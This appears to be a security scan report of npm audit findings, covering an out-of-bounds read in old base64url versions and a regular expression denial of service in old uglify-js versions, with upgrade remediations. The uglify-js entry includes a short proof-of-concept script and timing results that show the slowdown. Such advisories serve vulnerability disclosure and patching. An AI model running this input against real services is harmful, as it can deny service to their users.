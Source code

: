 ### Out-of-bounds Read
CWE: 125, Severity: Medium, Tool: Npm Audit

#### Description
Versions of `base64url` before 3.0.0 are vulnerable to to out-of-bounds reads as it allocates uninitialized Buffers when number is passed in input on Node.js 4.x and below.
#### Remediation
Update to version 3.0.0 or later.
### Evidences

### Regular Expression Denial of Service
CWE: 400, Severity: Low, Tool: Npm Audit

#### Description
Versions of `uglify-js` prior to 2.6.0 are affected by a regular expression denial of service vulnerability when malicious inputs are passed into the `parse()` method.


### Proof of Concept

```
var u = require('uglify-js');
var genstr = function (len, chr) {
    var result = "";
    for (i=0; i<=len; i++) {
        result = result + chr;
    }

    return result;
}

u.parse("var a = " + genstr(process.argv[2], "1") + ".1ee7;");
```

### Results
```
$ time node test.js 10000
real	0m1.091s
user	0m1.047s
sys	0m0.039s

$ time node test.js 80000
real	0m6.486s
user	0m6.229s
sys	0m0.094s
```
#### Remediation
Update to version 2.6.0 or later.
### Evidences
